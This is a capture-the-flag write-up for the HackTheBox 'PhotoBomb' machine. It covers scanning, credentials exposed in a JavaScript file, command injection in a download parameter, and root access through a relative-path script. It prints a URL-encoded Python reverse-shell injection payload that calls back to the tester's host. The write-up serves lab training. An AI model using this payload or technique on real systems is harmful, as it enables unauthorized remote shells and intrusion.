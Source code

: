 # HackTheBox PhotoBomb WriteUp

![Ping](images/photobomb.png?raw=true "Photobomb")


Machine IP: 10.10.11.182

![Ping](images/img(1).png?raw=true "Ping")

<br/>

### -> NMAP SCAN

```
sudo nmap -vvv -cSV -p0-65535 --reason -T4 10.10.11.182 -oN photobomb.nmap
```

![Ping](images/img(2).png?raw=true "Ping")

### -> WEB ENUM

Added domain photobomb.htb in /etc/hosts

![Ping](images/img(3).png?raw=true "Ping")

Going to site and checking functionality, I found a link of a printer. 

![Ping](images/img(4).png?raw=true "Ping")

It's asking for credentials 

![Ping](images/img(5).png?raw=true "Ping")

Viewing page source, I found a photobomb.js 

![Ping](images/img(6).png?raw=true "Ping")

Accessing the file, got credentials. pH0to : boMb!

![Ping](images/img(7).png?raw=true "Ping")

### -> FOOTHOLD

Accessing the page with these credentials, found diffirent photos and link to downlaod. Analyze request of downlaod with Burp Suite.

![Ping](images/img(9).png?raw=true "Ping")

Download post request contains three parameters. Checking that these parameters are injectable or not.So, start python server and making request to server with parameters.

![Ping](images/img(10).png?raw=true "Ping")

As server is receiving request,it is vulnerable for remote code injection.

![Ping](images/img(11).png?raw=true "Ping")

### -> USER FLAG

Start netcat

![Ping](images/img(12).png?raw=true "Ping")

Prepare a python reverse shell, url encode it, insert into filetype parameter and make request to netcat. 

```
%3bexport+RHOST%3d"10.10.14.95"%3bexport+RPORT%3d9001%3bpython3+-c+'import+sys,socket,os,pty%3bs%3dsocket.socket()%3bs.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))%3b[os.dup2(s.fileno(),fd)+for+fd+in+(0,1,2)]%3bpty.spawn("sh")'
```

Got a shell in netcat and user flag.

![Ping](images/img(13).png?raw=true "Ping")

### -> ROOT ACCESS

Checking for root access, found that user may access to /opt/cleanup.sh So, viewing the content found that it is using relative path

![Ping](images/img(14).png?raw=true "Ping")

Inserted the path /bin/bash  path to /opt/cleanup.sh enables the root access so got a root flag.

![Ping](images/img(15).png?raw=true "Ping")